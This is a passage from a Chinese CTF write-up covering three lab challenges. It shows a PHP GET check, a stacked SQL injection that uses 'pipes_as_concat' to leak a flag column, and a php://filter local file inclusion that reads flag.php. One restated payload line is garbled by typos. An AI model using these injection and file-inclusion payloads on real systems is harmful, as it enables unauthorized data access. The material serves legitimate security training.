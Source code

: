 
## 0x4.[极客大挑战 2019]Havefun

看源码：

```php
$cat=$_GET['cat'];
echo $cat;
if($cat=='dog')
{
	echo 'Syc{cat_cat_cat_cat}';
}
```

直接出flag

## 0x5.[SUCTF 2019]EasySQL

还是堆叠注入

show databases;和show tables后就不知道干啥了。。

后来看了wp：select $_post[query] || flag from flag

### 1）正解

```sql
1;set sql_mode=pipes_as_concat;select 1
```

即：selecr 1;sett sql_mode=pips_as_concat;select 1 || flag from flag

**补充**：

补充系统变量@@sql_mode：是一组mysql支持的基本语法及校验规则
PIPES_AS_CONCAT：将“||”视为字符串的连接操作符而非或运算符，这和Oracle数据库是一样的，也和字符串的拼接函数Concat相类似

[Mysql中sql_mode参数](https://blog.csdn.net/weixin_42373127/article/details/88866710)

### 2）非预期解

构造：

``` 
select *,1 || flag from flag
```

## 0x6.[ACTF2020 新生赛]Include

使用php://input 伪协议+POST发送php代码，不行

使用php://filter伪协议进行包含

于是：

```
?file=php://filter/read=convert.base64-encode/resource=flag.php
```
